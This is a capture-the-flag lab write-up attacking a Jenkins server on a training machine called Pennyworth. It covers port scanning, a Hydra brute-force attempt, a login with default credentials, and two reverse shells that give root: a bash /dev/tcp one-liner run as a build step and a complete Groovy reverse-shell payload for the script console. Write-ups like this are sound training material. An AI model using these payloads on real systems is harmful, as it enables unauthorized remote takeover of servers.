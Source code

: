 # MACHINE - PENNYWORTH

IP: 10.129.242.203

Type: Linux

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

[1] 8080/tcp HTTP **Jetty 9.4.39.v20210325** (25/03/2021)

- `http-robots.txt` disallowed entry

> *Jetty* is a Java web server and Java Servlet container. While web servers are
> usually associated with serving documents to people, Jetty is now often used for
> machine to machine communications, usually within larger software frameworks. 

> *Jakarta Servlet*, formely *Java Servlet* is a Java software component that extends
> the capabilities of a server. Although servlets can respond to many types of requests
> they most commonly implemet web containers for hosting web applications on web
> servers and thus qualify as a server-side servlet web API. 

---

## OPEN THE SITE

- The 'home page' of the site is the Jenkins login page

```
http://{IP}:8080/login?from=%2F
```

- `%2F` is the URL encoded value for the `/` symbol

> *Jenkins* is an open source CI/CD (Continuous Integration/Continuous Deployment)
> server written in Java. It is a multiplatform tool, in fact it includes packages for
> Linux, Mac OS and Windows. 

- Looking at the Source code of the page.
- It is quite a caos. We can use a beautifier to make it readable.
- There is nothing too much strange here ... 
- Looking at the cookies ... There is one

```
JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0
```

---

## LOGIN BRUTEFORCE

- Tried to login with admin:admin. This is the request that is done

![Login-Post-Request](./Images/login-post-request.png)

- Obviously the login failed ...
- We can try to use Hydra to bruteforce it

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 -t 4 \
	{IP} http-form-post "/j_spring_security_check:j_username=^USER^"\
	"&j_password=^PASS^&from=%2F&Submit=Sign+in&remember_me=on"\
	":H=Cookie\: JSESSIONID.b945217e=node01m7fv5t9913qk1wte6c07ab7hl0.node0" \
	":H=Referer\: http\://10.129.242.228\:8080/login?from=%2F" \
	":H=Origin\: http\://10.129.242.228\:8080/"
	":F=Invalid username or password"
```

- We obtain no result ... Hydra failed
- However, there are a bunch of default username and passwords that we can try
- The combination `root`:`password` worked and we are now on the Jenkins admin page

JENKINS VERSION: 2.289.1

JENKINS SCRIPTING LANGUAGE: *Groovy*

> *Groovy* is a powerful, optionally typed and dynamic language, with syntax-typing and static compilation
> capabilities, for the Java platform aimed at improving developer productivity thanks to a concise, 
> familiar and easy to learn syntax.

- Now, we can run a directory enumeration to see what we can access

```
$ gobuster dir -u http://{IP}:8080/ \
	-w /usr/share/wordlists/dirb/common.txt \
	-c "JSESSIONID.10959053=node0nraybqg1q9qwyn3sn19dz2jk0.node0"
```

- We can see that there is a `script` page

---

## RUNNING REVERSE SHELL

- There are two possible ways

1. Using the building features to run a classical bash reverse shell
2. Using the scripting panel

### RUNNING USING BUILD FEATURE

- Click on the *Groovy Script* Item
- Then `Configure > Source Code Management > Build > Add Build Step > Execute Shell`
- Paste the command

```
/bin/bash -c 'exec bash -i &> /dev/tcp/{MyIP}/{remote-port} <&1'
```

- Save the changes

- Then on your local machine start a netcat listener

```
$ nc -lvnp {remote-port}
```

- Return to the Jenkins page and click on `Build Now`.
- The reverse shell is up, we are root and the flag is in `root/flag.txt`

### RUNNING USING GROOVY SCRIPT

- Go to `http://{IP}:8080/script`
- This is the payload we need to use

```
String host="{MyIP}";
int port={remote-port};
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Start the usual netcat listener

```
$ nc -lvnp {remote-port}
```

- Launch the script
- The reverse shell is up, we are root and the flag is in `root/flag.txt`
